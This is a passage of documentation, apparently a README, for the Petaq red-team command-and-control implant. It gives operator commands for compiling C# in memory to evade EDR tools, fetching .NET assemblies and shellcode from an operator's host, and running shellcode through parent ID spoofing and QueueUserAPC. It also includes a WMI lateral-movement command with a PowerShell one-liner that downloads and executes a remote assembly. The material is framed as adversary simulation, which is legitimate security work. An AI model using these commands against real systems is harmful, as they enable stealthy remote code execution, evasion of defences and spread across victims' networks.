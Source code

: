 Petaq does add a header and a footer to the given C# code, compile it in memory without touching disk, then run it and get the output. This is useful to evade EDRs and other command line monitoring tools if the operator uses .NET code instead of Windows command shells.
```
exec-sharpdirect SHARPCODE
exec-sharpdirect base64 BASE64_ENCODED_SHARPCODE
exec-sharpdirect Console.WriteLine(System.Security.Principal.WindowsIdentity.GetCurrent().Name);
exec-sharpdirect Console.WriteLine(System.Net.Dns.GetHostName());
```
## Compile and Run .NET Source Code with Arguments
Petaq is able to compile a .NET source code in memory and run with the arguments given. This may be required in case of different .NET versions required, or just evasion. 
```
exec-sharpcode url http://YOURIP:YOURPORT/Sharpcode.src Parameters
exec-sharpcode base64 BASE64_ENCODED_SHARPCODE Parameters
```
## Load and Run .NET Assembly with Arguments
Petaq is able to load a .NET assembly from a remote location to a variable, and run with the arguments given. This is mainly used for .NET tradecraft used to simulate the Mitre Att&ck TTPs.
```
exec-sharpassembly url http://YOURIP:YOURPORT/Assembly.exe Parameters
exec-sharpassembly base64 http://YOURIP:YOURPORT/Assembly.b64 Parameters
```
## Load and Run Shellcode (Parent ID spoofing and QueueUserAPC)
Petaq is able to load a shellcode from a remote location, and run it through a new process created suspended with parent ID spoofing and QueueUserAPC. This is useful to invoke other C2s or unmanaged applications
```
exec-shellcode base64 http://127.0.0.1/Shellcode.b64 ARCH64 T1
exec-shellcode base64 http://127.0.0.1/Shellcode.b64 ARCH32 T2
```

# Lateral Movement Features
## WMI Command Execution
Petaq is able to run command on remote machines through WMI process create calls. This can be used as a lateral movement method such as running the initial execution PowerShell scripts as below. 
```
lateralmovement wmiexec domain=DOMAIN username=USER password=PASSWORD host=TARGETIP command="powershell –c $m = new- object net.webclient;$Url = 'http://YOURIP:YOURPORT';$dba =$m.downloaddata($Url);$a =[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))"
```
## Alternative Mitre Att&ck Techniques for Execution
Even though Petaq currently doesn't support any other lateral movement options internally, Windows does have enough tools to replicate the following Mitre Att&ck TTPs. In future, Petaq will have some of those techniques, especially DCOM. 
* T1175 - Component Object Model and Distributed COM
* T1021 - Remote Services
* T1077 - Windows Admin Shares
* T1028 - Windows Remote Management
* T1053 - Scheduled Task
